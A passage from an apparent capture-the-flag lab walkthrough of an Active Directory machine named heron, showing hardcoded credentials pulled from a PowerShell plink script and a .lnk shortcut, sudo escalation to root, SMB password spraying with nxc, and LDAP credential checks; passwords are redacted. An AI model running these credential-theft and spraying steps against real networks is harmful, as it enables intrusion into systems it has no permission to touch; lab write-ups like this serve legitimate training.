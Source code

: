 Now after some digging i found this :

```powershell
PS C:\Windows\scripts> cat ssh.ps1
$plinkPath = "C:\Program Files\PuTTY\plink.exe"
$targetMachine = "frajmp"
$user = "_local"
$password = "REDACTED"
& "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"
```

Let's try the creds on the target linux machine

```bash
svc-web-accounting-d@heron.vl@frajmp:~$ su _local
Password: REDACTED

_local@frajmp:/home/svc-web-accounting-d@heron.vl$ sudo -l
Matching Defaults entries for _local on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User _local may run the following commands on localhost:
    (ALL : ALL) ALL

_local@frajmp:/home/svc-web-accounting-d@heron.vl$ sudo su

root@frajmp:/home/svc-web-accounting-d@heron.vl# id
uid=0(root) gid=0(root) groups=0(root)
```
We root the linux machine !!

Ok now let's password spray

```bash
nxc smb "10.10.173.53" -u users.txt  -p 'REDACTED' --continue-on-success | grep -I '[+]'

SMB  10.10.173.53    445    MUCDC   [+] heron.vl\julian.pratt:REDACTED
```
Go in his home dir and we will find mucjmp.lnk file

## Getting adm_prju

```bash
cat mucjmp.lnk
2t`��ف+B�� �gP�O� �:i�+00�/C:\�1�X�sPROGRA~1t   ﾨR�B�X�s.BJz
AProgram Files@shell32.dll,-21781P1�X�[PuTTY<   ﾺX�[�X�[.���PuTTY\2 ��X�� putty.exeD    ﾆX���X�[.putty.exeO-N�h�ZC:\Program Files\PuTTY\putty.exe#..\..\Program Files\PuTTY\putty.exeC:\Program Files\PuTTY$adm_prju@mucjmp -pw REDACTED�&�

```
Verify Creds :

```bash
nxc ldap "10.10.173.53" -u 'adm_prju'  -p 'REDACTED' | grep -I '[+]'

LDAP                     10.10.173.53    389    MUCDC            [+] heron.vl\adm_prju:REDACTED
```
Now let's do a bloodhoud (Note: when i made the box i had done it well before with Samuel.Davies but it was no usefull, so I'm only doing it now in the walkthrough)
